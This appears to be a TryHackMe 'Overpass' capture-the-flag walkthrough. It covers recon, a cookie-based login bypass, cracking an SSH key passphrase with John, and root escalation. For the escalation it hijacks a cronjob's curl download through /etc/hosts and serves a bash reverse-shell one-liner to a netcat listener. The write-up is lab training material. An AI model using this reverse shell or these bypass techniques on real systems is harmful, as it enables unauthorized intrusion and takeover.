# [Overpass TryHackMe Writeup/Walkthrough][1]

What happens when some broke CompSci students make a password manager?

Obviously a *perfect* commercial success!

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have two ports open: `22, 80`

Let's check the website.



Downloads Page:


> You can download the source code from here and analyze it.

Next Step, Subdomains Finder! I am using **gobuster**.

`gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`


> The interesting one here is `/admin`.



I found a login page. Let's check the source code for the admin page.



Found three scripts here:
- main.js
- login.js
- cookie.js

Seems like *login.js* gets the responses and check for the word, `Incorrect Credentials`. If its is not present that means we have the access.



So, we can set cookies automatically in the Browser or use BurpSuite do it.

###### With BurpSuite:
- Intercept the request.
- Right click > Do Show response.
- Forward, Forward.... till you get the response.
- Backspace *incorrect credentials* and forward the response.

##### In Browser (FireFox):
- Right Click > Inspect Element.
- Go to Storage. Add the cookie with name `SessionToken` and no value.
- Save it and reload the page.

> BAAM! We are logged in.

We have a username, `james` and a SSH Key to login.



Copy the SSH Key and save it in a file. You can name the file anything. I named is `id_rsa` (generally used name).

Before connecting, we need to change the permissions for the key -> `chmod 600 id_rsa`

When I tried to connect, a passphrase was required. Let's use *JohnTheRipper*, to crack the password.

First we need to convert the file into Hash. To do that -> `ssh2john id_rsa > hash`



Now we can provide `rockyou.txt` as a wordlist to crack this HASH.


> We got the password.

I logged in with the credentials, `username:james` and `password:GOT FROM JOHN`



We got the `user flag`.



While looking through, I found a `TODO` list.


> Whats' interesting here is the last task. Looks like Script Automation aka a cronjob.

So, let's have look for this `cronjobs`. The file is stored in `/etc/crontab`.


> There is a curl command which gets a bash file from a remote server and passes the content to bash command as ROOT.

Let's first create a folder `downloads` and subfolder `src` using command -> `mkdir -p downloads/src` and a file named `buildscript.sh` in our local machine. Add the bash one liear for reverse shell to it -> `bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1`. Also start a server using python -> `python3 -m http.server 80`.


> What we have done here is created a URL. Like `http://<OUR_IP>/downloads/src/buildscript.sh`. Same as what curl is requesting for!

Fireup another terminal and start a netcat listener -> `nc -lvnp 4444`
> We are done with the work on our machine. Let's jump back to the target machine.

The `overpass.thm` part can be replace with our IP using the HOSTS file on the target machine. As the system first looks for the DNS Query at our local machine.
> To know more about HOST files and how it works, [Check this link][3].

HOSTS file on Linux is stored at `/etc/hosts`. Open the file, change the IP of `overpass.thm` to your IP.


> Wait for a while, it may take sometime.

In few minutes or so, you will get a reverse connection from the target machine.

You know what to do next :stuck_out_tongue_winking_eye:



[1]: https://tryhackme.com/room/overpass
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://www.hackhunt.in/2020/12/block-access-to-websites-for-your-pc.html
